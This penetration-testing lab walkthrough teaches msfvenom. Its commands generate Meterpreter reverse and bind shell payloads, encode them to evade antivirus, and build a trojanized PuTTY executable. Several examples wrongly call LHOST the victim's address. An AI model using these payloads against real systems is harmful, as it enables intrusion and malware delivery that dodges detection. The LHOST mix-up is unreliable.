








- [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how to create Metasploit payloads using Msfvenom.

**Lab Purpose:**

Msfvenom is a command line instance of Metasploit that is used to generate payloads and can also encode them.

The Metasploit framework is a powerful tool which can be used to probe systematic vulnerabilities on networks and servers. It provides information about security vulnerabilities and aids in penetration testing and IDS signature development.

**Lab Tool:**

Kali Linux VM.

**Lab Topology:**

You can use Kali Linux in a VM for this lab.

**Lab Walkthrough:**

### Task 1:

Both msfvenom and metasploit come pre-installed on Kali. We can view the help screen for both tools by typing the following into our terminal:

msfvenom

msfconsole

In this lab, we will be learning how to generate payloads which can be transferred to a target and used to establish a shell on that target through Metasploit.

### Task 2:

This is an easy tool to use as its syntax is the same no matter the payload being created. The general syntax for this tool looks like the following:

msfvenom -p LHOST= LPORT=

It’s as simple as that. I will list some examples of common payloads below and explain them so that you get an understaning of how to create payloads of your own.

We can view all payload options by typing the following command:

msfvenom -p linux/x86/meterpreter/reverse_tcp –list-options

Payload 1 – Used for getting a reverse meterpreter shell on a Linux Metasploitable target machine. Assume that our Kali IP address is 192.168.56.103 in this instance:

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.103 LPORT=5555 -f elf > example.elf

Also, we can understand what type of executable is created by using the “file” command.

Let’s break this command down:

- -p specifies the payload we wish to use, this is specified in the following format: OS (Linux)/Arch (x86)/Type of shell (Meterpreter)/Type of connection (Reverse)
- LHOST is the IP address which we want our target to connect back to (our attack machine which is Kali VM)
- LPORT is the port we want our target to connect to our machine through
- -f is the file type we wish to create, in this case elf
- > specifies what we want our payload to be called

Payload 2 – Same as above, but now, we are using it to get a reverse meterpreter shell on a Windows target:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.123

LPORT=443 -f exe -o shell.exe

Assume that our victim Windows machine’s IP address is 192.168.56.123 in this instance.

We can understand what type of executable is created by using the “file” command.

The difference between this payload and the first payload is that we are generating an EXE file instead of an ELF file.

Payload 3 – Used for getting a bind meterpreter shell on a Linux target:

msfvenom -p linux/x86/meterpreter/bind_tcp LPORT=5555 -f elf >

example.elf

We can understand what type of executable is created by using the “file” command.

The command to generate this payload is different as we are generating a bind shell. This means that our target will listen for us to connect to it, instead of our target connecting back to use. Therefore, we do not need to supply an IP address for this command as the target will not be connecting to anything.

### Task 3:

We will now look at encoding a payload. Encoding can be used to help evade IDS and Antivirus solutions, so that our payload is not caught and quarantined before we can establish a shell on our target. Encoding a payload is very easy. We can view all available encoders by typing the following:

msfvenom -l encoders

Encoded payload example:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.123

LPORT=443 -e x86/shikata_ga_nai -f exe -o payload.exe

Assume that our victim Windows machine’s IP address is 192.168.56.123 in this instance;

The -e option is used to specify the type of encryption we want to encrypt our payload with. In this case, we have chosen the x86/shikata_ga_nai enctyption option for our payload.

### Task 4:

Finally, we can also create payloads using templates. This can be done with the following syntax:

msfvenom -p [payload] LHOST= LPORT= -x [template] -f [formattype] > outputfile

In this command, -x is used to specify the template we want to use. The following command is an example of creating a payload using the Putty template.

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.123  LPORT=443 -x putty.exe -f exe > evilputty.exe

Assume that our victim Windows machine’s IP address is 192.168.56.123 in this instance.

### Task 5:

Now, to practice! You can practice creating different payload types and trying to establish shells on your Windows or Metasploitable systems. We will be covering how to do this in the next few labs.

You should also experiment with encrypting your payload. You can upload your unencrypted payload to the following site to see the various different Antivirus’ which flag your file as a virus:

[www.virustotal.com](http://www.virustotal.com/)

Then, encrypt your payload and upload it again. Notice how some Antivirus engines do not pick up on the payload as a virus? Payloads can be encrypted multiple times to further reduce the risk of detection.